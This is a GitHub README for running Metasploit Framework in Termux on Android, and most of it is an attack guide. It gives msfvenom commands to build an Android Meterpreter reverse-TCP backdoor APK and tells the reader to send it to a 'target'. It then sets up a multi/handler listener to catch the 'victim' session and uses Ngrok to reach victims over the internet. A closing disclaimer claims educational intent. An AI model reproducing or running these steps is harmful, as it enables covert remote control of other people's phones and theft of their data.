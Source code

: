 # Metasploit Framework 6 in Termux
[![GitLab Testing status](https://gitlab.com/gushmazuko/metasploit_in_termux/badges/master/pipeline.svg)](https://gitlab.com/gushmazuko/metasploit_in_termux/-/pipelines) ![GitHub Repo stars](https://img.shields.io/github/stars/gushmazuko/metasploit_in_termux?style=social) [![](https://img.shields.io/badge/GitLab-Mirror-succes?link=https://gitlab.com/gushmazuko/metasploit_in_termux)](https://gitlab.com/gushmazuko/metasploit_in_termux)

![Metasploit 6 running](https://i.postimg.cc/hv5xQJkd/photo-2025-07-15-13-13-51.jpg)


---

## 📱 Requirements

- Android Device
- Termux App (latest version from [F-Droid](https://f-droid.org/en/packages/com.termux/))
- Minimum 2GB Free Storage
- Stable Internet Connection

---

## ⚙️ Installation Steps

```bash
pkg update && pkg upgrade -y
pkg install git -y
git clone https://github.com/Pythonds100/metasploit_in_termux
cd metasploit_in_termux
bash metasploit.sh
```

This script will download and install the latest version of Metasploit Framework with all required dependencies.

---

## 🧰 Launching Metasploit

Once installed, open it anytime by typing:

```bash
msfconsole
```

Wait for it to load fully.

---

## 💣 How to Create a Payload (APK Backdoor)

Generate a malicious APK file using the following command:

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<your-port> -o /sdcard/payload.apk
```

🔁 Replace:

- `<your-ip>` → Your local or public IP address  
- `<your-port>` → Any open port (e.g., `4444`)

**Example:**

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -o /sdcard/payload.apk
```

Send this APK to the target. When they install and open it, you will get access.

---

## 🧲 Set Up the Listener (Exploit Handler)

Start Metasploit and run:

```bash
msfconsole
```

Then type the following:

```bash
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT <your-port>
exploit
```

Wait for the victim to run the payload. You’ll receive a Meterpreter session upon successful connection.

---

## 🌐 How to Find Your IP Address

### ✅ For Local Network (WiFi):

```bash
ip a
```
Look for `inet` IP like `192.168.x.x`

### ✅ For Public IP:

Go to: [https://whatismyipaddress.com](https://whatismyipaddress.com)

---

## 🌍 Optional: Use Ngrok (for Internet access)

If you're behind NAT or want to use Metasploit over the internet, use **Ngrok**.

### 🔹 Step 1: Install Ngrok

```bash
pkg install wget unzip -y
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-arm.zip
unzip ngrok-stable-linux-arm.zip
chmod +x ngrok
```

### 🔹 Step 2: Start a Tunnel

```bash
./ngrok tcp 4444
```

Ngrok will give you something like `tcp://0.tcp.ngrok.io:12345`

Use:

- `LHOST = 0.tcp.ngrok.io`
- `LPORT = 12345`

in your payload and listener.

---

## 🙋 Author & Credits

**Developed by:**  
👤 GitHub: [Pythonds100](https://github.com/Pythonds100)  
💬 Telegram: [@yourusername](https://t.me/yourusername) *(Optional - Replace with your actual Telegram username)*

---

## ⚠️ Disclaimer

> 🛑 This tool is made for **educational purposes only**.  
> Unauthorized access to devices or systems is **illegal**.  
> The developer is **not responsible** for any kind of misuse.  
> Use this only in legal environments like **your own devices, lab setups, or with permission**.

---

## 🌟 Support

If you find this project useful, please consider giving it a ⭐ on GitHub:

```bash
git clone https://github.com/Pythonds100/metasploit_in_termux
```

Pull requests and suggestions are welcome!

---
